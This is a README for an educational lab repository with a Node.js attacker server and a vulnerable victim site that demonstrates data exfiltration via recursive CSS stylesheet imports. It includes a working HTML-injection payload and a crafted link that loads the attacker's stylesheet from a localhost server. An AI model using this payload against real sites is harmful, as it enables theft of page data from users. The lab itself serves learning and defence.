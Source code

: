 # Data exfiltration via recursive CSS stylesheet imports

This repository contains two Node.js applications designed as a test bed for demonstrating and learning how to exfil data using the recursive CSS stylesheet imports technique.

## Overview

CSS facilitated data exfil is a technique that allows an attacker to extract data from a victim's browser using crafted stylesheets. This repository contains two separate applications to simulate the attacker's exploit server (`attacker-site`) and the victim (`victim-site`).

### `attacker-site`

The attacker's exploit server is used to carry out the exfiltration that is kicked off by the initial payload:

```
&vuln="/><style>@import%20url(http://127.0.0.1:8089/start)</style>
```

### `victim-site`

The victim's site is vulnerable to content injection and includes an endpoint that the attacker can exploit to load arbitrary CSS. There is a Content-Security-Policy that prevents JavaScript from running to simulate a scenario where Cross-Site Scripting is not feasible.

## Getting Started

Follow these instructions to set up the environment and run the applications.

### Prerequisites

- Node.js (Download from [Node.js website](https://nodejs.org/))
- Git (optional, for cloning the repository)

### Installation

1. Clone the repository or download the files to your local machine.
    ```
    git clone git@github.com:faceteep/css-exfil.git
    ```

2. Navigate to each application directory (`attacker-site` and `victim-site`) and install dependencies.
    ```
    cd attacker-site
    npm install

    cd ../victim-site
    npm install
    ```

### Running the Applications

1. Start the attacker's site:
    ```
    cd attacker-site
    node app.js
    ```
   
2. In a new terminal, start the victim's site:
    ```
    cd victim-site
    node app.js
    ```

## Demonstration

To see the CSS Exfiltration in action, follow these steps:
1. Open the victim's site in a browser.
2. Visit the following 'attacker' crafted link: http://127.0.0.1:5001/?vuln=%22/%3E%3Cstyle%3E@import%20url(http://127.0.0.1:8088/start)%3C/style%3E
3. Observe how the attacker's site receives data through recursive stylesheet imports.

## Acknowledgments

- Most of the attacker-site code was inspired by this repository: https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231.

## Disclaimer

This application is designed for educational purposes. Please use responsibly.
